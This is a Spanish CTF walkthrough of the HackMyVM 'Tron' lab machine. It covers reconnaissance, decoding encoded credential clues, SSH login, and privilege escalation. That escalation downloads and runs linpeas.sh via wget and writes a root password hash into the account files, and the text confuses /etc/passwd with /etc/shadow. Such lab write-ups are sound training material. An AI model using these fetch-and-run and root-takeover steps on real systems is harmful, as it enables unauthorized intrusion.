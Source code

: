 ```yaml
---
layout: post
title: Tron - Hackmyvm
tags: [ctf, hackmyvm]
---
```


**Autor**: Noname \\
**Dificultad**: Fácil

![img](/imgs/write-ups/hackmyvm/tron/tron_1.png#center)

## Reconocimiento

Al iniciar la maquina podemos ver la dirección IP.

![img](/imgs/write-ups/hackmyvm/tron/tron_2.png#center)

Una vez conocida la dirección, podemos hacer un escaneo más profundo.

![img](/imgs/write-ups/hackmyvm/tron/tron_3.png#center)

Nos conectamos en el puerto 80 (HTTP) y tras inspeccionar el código de la página encontramos el siguiente comentario.

![img](/imgs/write-ups/hackmyvm/tron/tron_4.png#center)

Una vez inspeccionada la página principal, hacemos una búsqueda de subdirectorios.

![img](/imgs/write-ups/hackmyvm/tron/tron_5.png#center)

Nos dirigimos al directorio /MCP en el cual encontramos un fichero tron.txt

![img](/imgs/write-ups/hackmyvm/tron/tron_6.png#center)

Con la herramienta "curl" podemos leerlo desde la terminal y vemos que es un texto en base64 lo que nos devuelve código Brainfuck. Si lo ejecutamos nos imprime el nombre del usuario con el que nos tendremos que conectar a la maquina.

![img](/imgs/write-ups/hackmyvm/tron/tron_9.png#center)

![img](/imgs/write-ups/hackmyvm/tron/tron_8.png#center)

Dentro de la carpeta /MCP hay otra llamada /terminalserver que contiene el archivo 30513.txt. Volvemos a utilizar "curl" para leer su contenido

![img](/imgs/write-ups/hackmyvm/tron/tron_7.png#center)

Encontramos como descifrar el comentario de la página principal. Nos dirigimos a la página Cyberchef y con la operación de "substitute" lo desciframos.

![img](/imgs/write-ups/hackmyvm/tron/tron_10.png#center)

## Explotación

Una vez descifrada la contraseña podemos conectarnos al puerto 22 (SSH) con el usuario "player".

![img](/imgs/write-ups/hackmyvm/tron/tron_11.png#center)

Para una enumeración inicial utilizaremos "linpeas.sh". Primero lo descargaremos con "wget" en el directorio /tmp.

```
$ cd /tmp
$ wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

Después le damos permisos de ejecución.

```$ chmod +x linpeas.sh```

Una vez hecho esto ya podremos ejecutarlo.

Rápidamente veremos que tenemos permisos de escritura en /etc/passwd con lo que podremos escalar a "root".

![img](/imgs/write-ups/hackmyvm/tron/tron_12.png#center)

Generamos una nueva contraseña con "openssl" que después pegaremos en /etc/shadow sustituyendo la "x" de root.

![img](/imgs/write-ups/hackmyvm/tron/tron_13.png#center)

![img](/imgs/write-ups/hackmyvm/tron/tron_15.png#center)

Una vez guardado el fichero podemos cambiar al usuario root con la contraseña que hemos creado.

![img](/imgs/write-ups/hackmyvm/tron/tron_14.png#center)

Y con este paso hemos terminado.

Muchas gracias a **Noname** por esta máquina.

